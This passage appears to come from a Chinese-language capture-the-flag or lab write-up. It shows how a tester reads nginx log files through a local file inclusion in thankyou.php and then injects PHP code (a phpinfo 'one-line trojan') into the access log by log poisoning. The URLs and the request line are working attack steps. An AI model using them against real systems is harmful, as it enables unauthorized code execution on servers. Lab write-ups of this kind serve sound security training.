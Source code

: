 <img src="https://img-blog.csdnimg.cn/85dd671814b149d2a6bb658bbe5defe9.png" alt="在这里插入图片描述">

### 7、确认日志文件的位置

>  
 由于前面信息收集我们确认了是nginx的站，访问日志和错误日志应该如下  


```
/var/log/nginx/access.log
/var/log/nginx/error.log

```

>  
 包含看一下 


```
http://192.168.233.181/thankyou.php?file=/var/log/nginx/error.log

```

<img src="https://img-blog.csdnimg.cn/cd71477b2fc04356b0133701be466958.png" alt="在这里插入图片描述">

<img src="https://img-blog.csdnimg.cn/aadcb4528d6344fca779b2fa5565a6a6.png" alt="在这里插入图片描述">

### 8、写入一句话木马

>  
 这里是接着之前来的，但是由于网络环境发生了变化 ip由192.168.233.181变成了192.168.233.184 


#### 1.写入phpinfo

>  
 写入phpinfo 访问如下日志文件，使用burpsuite抓包 


```
http://192.168.233.184/thankyou.php?file=/var/log/nginx/access.log

```

>  
 向日志文件中写入phpinfo一句话木马 


```
GET &lt;?php phpinfo();?&gt; HTTP/1.1

```

<img src="https://img-blog.csdnimg.cn/71790acc027146f9a01947d37737d08a.png" alt="在这里插入图片描述">

>  
 重新打开日志文件可以看到成功写入，成功回显出phpinfo信息 
